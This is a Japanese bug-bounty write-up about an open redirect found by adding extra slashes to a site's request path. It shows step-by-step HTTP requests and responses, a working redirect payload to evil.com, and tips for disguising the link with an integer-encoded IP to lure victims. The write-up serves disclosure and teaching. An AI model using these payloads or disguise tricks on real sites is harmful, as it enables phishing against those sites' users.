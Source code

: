 ```yaml
---
description: 'Dec 17, 2018'
---
```


# Request-URIのパスからのオープンリダイレクト 実践編

とある企業の非公開報奨金制度で[Request-URIのパスからのオープンリダイレクト](open_redirect_via_path.md)を発見した。その検出に至るまでの手順が興味深く、HackerOneのレポートにも類似の挙動は見当たらなかったため、詳細をまとめておく。

対象サイトのトップにアクセスした際の正常なレスポンスは以下である。パスの値によるレスポンスの変化を手掛かりに脆弱性を発見した。

hxxps://www\[.\]example.com/

```http
HTTP/1.1 200 OK
...
<title>Example Domain</title>
```

## 検出手順

まず、任意のパスに `GET /xxx HTTP/1.1` でリクエストすると、トレイリングスラッシュを追加するリダイレクトが発生する。

hxxps://www\[.\]example.com/xxx

```http
HTTP/1.1 301 Moved Permanently
...
Location: /xxx/
```

つぎに、ドメイン直後のスラッシュを2つにして `GET //xxx HTTP/1.1` でリクエストするも、レスポンスに変化は見られない。

hxxps://www\[.\]example.com//xxx

```http
HTTP/1.1 301 Moved Permanently
...
Location: /xxx/
```

しかし、スラッシュを3つにして `GET ///xxx HTTP/1.1` でリクエストすると、トップへのリダイレクトが発生する。

hxxps://www\[.\]example.com///xxx

```http
HTTP/1.1 301 Moved Permanently
...
Location: /
```

また、トレイリングスラッシュを追加して `GET ///xxx/ HTTP/1.1` でリクエストすると、トップのコンテンツが返る。

hxxps://www\[.\]example.com///xxx/

```http
HTTP/1.1 200 OK
...
<title>Example Domain</title>
```

さらに、トレイリングスラッシュの直後に `zzz` を追加すると、上位階層の `xxx` を無視したリダイレクトとなる。

hxxps://www\[.\]example.com///xxx/zzz

```http
HTTP/1.1 301 Moved Permanently
...
Location: /zzz/
```

そこで、`zzz` の直前のスラッシュを2つにしてリクエストすると、レスポンスのLocationヘッダの先頭に `//` を挿入できた。

hxxps://www\[.\]example.com///xxx//zzz

```http
HTTP/1.1 301 Moved Permanently
...
Location: //zzz/
```

## 実証

Locationヘッダに `//` から始まるスキームを省略した形式の絶対パスを挿入することで、外部サイトへのリダイレクトが発生する。

hxxps://www\[.\]example.com///xxx//evil.com

![](../.gitbook/assets/open_redirect.png)

上記のURLには攻撃者の所有するドメインが含まれているため、警戒心の強い被害者は不信感を抱く可能性が高い。固定IPアドレスが振られたドメインであれば整数変換により難読化できる。例えば `evil.com` のIPアドレス `66.96.146.129` は `1113625217` に変換できる¹ ²。パスに含まれる階層 `xxx` は任意の文字列に置き換えられるため、攻撃者は対象サイトの特性に合わせて以下のようなURLに偽装することで被害者を誘導できるだろう。

hxxps://www\[.\]example.com///articles//1113625217/index.html

```http
HTTP/1.1 301 Moved Permanently
...
Location: //1113625217/index.html/
```

## 所感

Request-URIのパスからの入力に起因する脆弱性の検出は、サイト仕様の把握やアカウント作成などの事前準備が不要なため、気軽に調査を開始できる。今回は `//xxx` と `///xxx` のレスポンスの差異に気付けたため、その挙動をオープンリダイレクトにつなげられた。気軽に何も考えずにスラッシュを3つ入力したことが要因となった。

発見した脆弱性はサイト運営会社の報奨金制度へ報告した。Severity（深刻度）はLowと評価されたため報奨金は$100〜$500になる見込み。さらにスコープ内の他4つのドメインでも同様の脆弱性を発見し、それぞれ認定されている。少額な脆弱性も横展開できるとおいしい。



¹ DNSの逆引きができないため、実際には `1113625217` にアクセスしても `evil.com` は表示されない。一例として記載する。  
² 変換後のIPアドレスは[How to Obscure Any URL](http://www.pc-help.org/obscure.htm)を参考に `66 * 256 + 96 = * 256 + 146 = * 256 + 129 =` で求めた。

